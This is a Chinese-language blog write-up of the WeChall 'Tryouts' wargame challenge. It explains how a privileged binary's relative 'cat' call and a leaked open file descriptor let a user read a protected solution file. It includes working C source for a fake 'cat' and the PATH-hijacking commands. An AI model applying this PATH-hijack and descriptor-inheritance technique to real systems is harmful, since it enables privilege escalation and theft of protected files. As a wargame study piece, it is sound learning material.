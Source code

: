 ```yaml
---
title: Tryouts
author: rk700
layout: post
tags:
  - wechall
  - exploit
---
```

<http://www.wechall.net/challenge/warchall/tryouts/index.php>  
用IDA反汇编，基本上了解了题意。最初的想法比较直接：从随机数下手。但根据后来在网上搜到的情况，`/dev/urandom`虽然不是那么随机，但熵基本上还是足够的

仔细阅读反汇编得到的C代码，发现了以下不自然的地方：

{% highlight c %}
snprintf((char *)&v16, 0x200u, "cat %s/seed > /dev/urandom", v20->pw_dir);
{% endhighlight %}
    
这里直接用`cat`而没用绝对路径，也就是说我们可以在家目录下创建一个新的可执行文件，名字也叫`cat`，然后将`$HOME`放在`$PATH`的最前面，那么这个`cat`就会被执行

另外，solution.txt的file descriptor到了最后的最后才关闭，甚至在`/dev/urandom`后，这点太不自然了，按说读完了solution.txt就已经完全不需要这个描述符了

于是查资料，子进程是可以继承父进程的文件描述符（其实以前好像见过类似的题目）：
    
> The child inherits copies of the parent&#8217;s set of open file descriptors. Each file descriptor in the child refers to the same open file description (see open(2)) as the corresponding file descriptor in the parent. This means that the two descriptors share open file status flags, current file offset, and signal-driven I/O attributes (see the description of F\_SETOWN and F\_SETSIG in fcntl(2)). 
    
> By default, file descriptors remain open across an execve(). File descriptors that are marked close-on-exec are closed; see the description of FD_CLOEXEC in fcntl(2). 
    
rsolution.txt的描述符应该是3，因为0，1，2已经被占用。于是我们写cat.c，lseek到文件开始处，再读16个字符
    
{% highlight c %}
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char *argv[]) {
    FILE *fp = fopen(argv[1], "w");
    char buf[16];
    memset(buf, 0, sizeof buf);
    lseek(3, 0, SEEK_SET);
    read(3, buf, sizeof buf);
    fprintf(fp, "%s", buf);
    return 0;
}
{% endhighlight %}
    
将其编译  
`$ gcc -m32 cat.c -o cat`  
然后设置路径  
`$ export PATH=$HOME:$PATH`  
这样就会把solution.txt的内容写到文件seed里面了